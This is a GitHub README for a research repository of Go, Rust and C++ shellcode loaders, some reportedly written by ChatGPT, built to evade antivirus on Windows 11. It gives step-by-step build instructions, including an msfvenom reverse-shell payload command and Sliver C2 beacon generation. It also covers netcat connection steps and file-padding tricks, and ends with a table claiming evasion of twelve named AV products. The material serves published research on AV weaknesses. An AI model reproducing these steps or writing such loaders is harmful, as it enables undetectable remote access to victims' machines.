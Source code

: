 <!-- ABOUT THE PROJECT -->
## About The Project

This project was created to share our code that is mentioned in the following paper. In this repository, we included only the relevant Go, Rust, and C++ code that was created by ChatGPT. The purpose of this project was to demonstrate that with simple and common evading techniques, a malicious executable can evade most, if not all, AV solutions. It should be noted that the study focused on Windows 11. So, probably these executables will be working in Windows 10, but I have not tested them.


### Built With

This section lists all major frameworks/libraries used to create this project. 
1. Go 1.19.5
2. Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Python 3.10
4. pycryptodomex


<!-- GETTING STARTED -->
## Getting Started




### Requirements
1. Install Go 1.19.5
2. Install Rust (nightly-x86_64-pc-windows-msvc toolchain)
3. Install Visual Studio 2022 (Rust + all Universal/Desktop C++ relevant packages)
4. Install C++ dependencies from Visual Studio 2022
5. Install Visual Studio Code (Go)
6. Install Python 3.10
7. Install pycryptodomex



<!-- USAGE EXAMPLES -->
## Usage
### For Go
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f go 
2. Remove "0x" and new line values
3. Place the shellcode in the encryptGo.go file
4. Execute the code
5. Take the encrypted shellcode and place it in the decryptGo.go file
6. Compile the Go file to retrieve the .exe with the following command
```
go build -ldflags -H=windowsgui decryptGo.go
```

### For Rust
1. Place the shellcode.bin file to the same directory as with the encryptPython.py
2. Execute 
```
python encryptPython.py
```
to generate necessary files
3. Compile the code to retrieve the exe file
```
cargo build --release
```
Note: If you want to use Rust with two loaders, after encrypting the first binary file, edit the encryptPython.py file, to change the output name of the second binary file, as explained in the relevant Python comments. If you want to use only one loader, simply comment out the irrelevant code lines, as these have been noted in different comments in the Rust code.

### For C++ (ChatGPT)
1. Create a WindowsApplication dummy project in Visual Studio 2022
2. Change debug to release
3. Choose the proper port.
4. Compile the code to generate the exe file
5. Connect from a Linux host with the following command
```
nc IP PORT
```
If everything is working correctly, you should receive a "Connection Established!" message and be able to execute cmd commands to receive their response. If this message was not received, check if this port is open for inbound traffic in the Windows Firewall settings. If not, simply add a firewall rule to allow this traffic.

Note: If you want to use random generated files, execute the following command
```
head -c 90M </dev/urandom > file-2
```
With "file-2" the name of the output file, and "90M" is the file size. You can generate and include as many files as you like.


## Receiving connections
To be able to capture the response of these executables, I used two C2 servers, namely Sliver, and Nimplant. Along with Metasploit, which was used for. Also, Rust code requests a binary file to load into the process, while Go code loads a simple shellcode. So, to export such a file from Nimplant, execute:
```
python NimPlant.py compile
```
While, to generate such a file from Sliver, execute:
```
generate beacon --mtls IP --os windows --disable-sgn -f shellcode --skip-symbols --timeout 10
```
And start the "mtls" listener, by executing:
```
mtls
```

## AV Evasion
The following table refers to the executables with the best evasion rate from the study. This means that all these three executables had included randomly generated files, use the provided code, and for the Rust code, implemented both loaders. For the Paid versions of AVs, I tested in some cases their trial versions.  As we can observe from the following table, the evasion rate is quite high, especially in the case of Rust code, which managed to evade all most-common AV solutions. This is noted on 31/03/2023.

|  AV | Go | Rust | C++ | Free/Paid version|
|---|---|---|---|---|
|Avast|✗|  ✓ |  ✗ | Free |
|AVG |  ✗ |  ✓ |  ✗ | Free |
|  Avira|  ✓ | ✓  |  ✓ | Free |
|  MS Defender |  ✓ | ✓  | ✓  | Free |
|  Webroot | ✓  |  ✓ | ✓ | Paid |
|  Eset Smart Security Premium |  ✗ |  ✓ |  ✓ | Paid |
|  Bitdefender Total Security |  ✗ | ✓  | ✓ | Paid |
| Kaspersky Small Office Security |  ✓ |✓   |✗ | Paid |
| Sophos Home |  ✓ |  ✓ | ✓ | Paid |
| MalwareBytes |  ✓ |  ✓ | ✓ | Paid |
| McAfee Total Security |  ✓ | ✓  | ✓  | Paid |
| Norton |  ✓ | ✓  |  ✓ | Paid |
| Results| 8/12| 12/12| 9/12| -- |

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".


<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information. The relevant code is provided only for educational purposes and authorized audits. Use it at your own risk.



<!-- CONTACT -->
## Contact

Efstratios Chatzoglou -  efchatzoglou@gmail.com 


<!-- ACKNOWLEDGMENTS -->
## Acknowledgments
I would like to thank the users that created the following three repositories, which they assisted into creating this one. The Go code is forked from https://github.com/sezzle/simpleGoAES, and https://github.com/Ne0nd0g/go-shellcode/tree/master/cmd/CreateProcess and the Rust code from https://github.com/cr7pt0pl4gu3/Pestilence. Also, I would like to thank the awesome C2 tools, Sliver https://github.com/BishopFox/sliver, and Nimplant https://github.com/chvancooten/NimPlant.

